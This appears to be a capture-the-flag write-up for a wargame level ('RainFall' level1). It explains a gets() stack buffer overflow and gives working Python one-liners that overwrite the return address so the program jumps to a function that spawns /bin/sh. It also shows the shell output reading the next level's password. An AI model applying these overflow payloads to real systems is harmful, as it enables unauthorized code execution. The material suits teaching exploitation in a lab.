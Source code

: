 📘 Buffer Overflow Exploit: 
This is a classic stack-based buffer overflow example that demonstrates how you can redirect program execution to custom code by overflowing a buffer.

💡 How the stack layout works in a function call
When a function is called (like main()), the stack grows downward and sets up a frame like this:

| higher memory addresses |
+------------------------+
| function arguments     |
+------------------------+
| return address         | <-- Overwriting this = code execution
+------------------------+
| saved EBP (base ptr)   |
+------------------------+
| local variables        | <-- buffer[] lives here
+------------------------+
| lower memory addresses |

⚠️ Vulnerability Summary
The binary uses the unsafe gets() function.
gets() does not check how much input is provided.
So if you input more than the buffer can hold, it will start overwriting adjacent memory — including the saved return address on the stack.

This allows us to control the program's flow after the current function returns.

Example with buffer
Say we have this code:

void vulnerable() {
    char buffer[80];
    gets(buffer);
}

When vulnerable() is called, the stack looks like:
[buffer]          <-- 80 bytes
[saved EBP]       <-- previous base pointer (optional, depends on compiler)
[return address]  <-- where execution jumps after `vulnerable()` returns

So if you input more than 80 bytes, the next bytes overwrite the saved EBP (not dangerous yet), and then the return address.

🧠 Our Goal
There is a hidden function in the binary named run() located at: 0x08048444
This function calls: system("/bin/sh");
💡 If we overwrite the return address to jump to run(), we get a shell as the level1 user.

🔎 Finding the Offset
To exploit this, we first need to know how many bytes it takes to reach the saved return address on the stack.

Step 1: find offset with patterngenerator and check if EIP is overwritten
(gdb) run 
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

0x63413563 → as ASCII chars:
0x63 = 'c'
0x41 = 'A'
0x35 = '5'
0x63 = 'c'
So you get: 'cA5c' — but this is little-endian, so memory holds it as:
0x63 0x35 0x41 0x63 → "c5Ac"
'cA5c' -> "c5Ac" -> index 76

🛠 Crafting the Exploit
Here’s the working exploit:
(python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1

🔍 Explanation
python -c '...': We use Python to generate the exploit payload.
"A" * 76: Fills the buffer right up to the return address.
struct.pack("<I", 0x08048444): Packs the address of run() in little-endian format (\x44\x84\x04\x08).
< — little-endian (least significant byte is stored first)  // lscpu | grep "Byte Order"
I — unsigned 4-byte integer

cat: Keeps stdin open — sometimes required if the program reads input again.

| ./level1: Feeds the payload into the vulnerable binary.

✅ What Happens?
gets() reads our input (76 A's + address of run()).

When main() tries to return, it jumps to 0x08048444.

That’s the run() function → which runs system("/bin/sh").


level1@RainFall:~$ (python -c 'import struct; print "A"*76 + struct.pack("<I", 0x08048444)'; cat) | ./level1
or
python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
cat /tmp/payload - | ./level1

Good... Wait what?
./pass
/bin/sh: 1: ./pass: Permission denied
whoami
level2
cat /home/user/level2/.pass            
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77


alternative:
level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/try

level1@RainFall:~$ cat /tmp/try - | ./level1 
Good... Wait what?


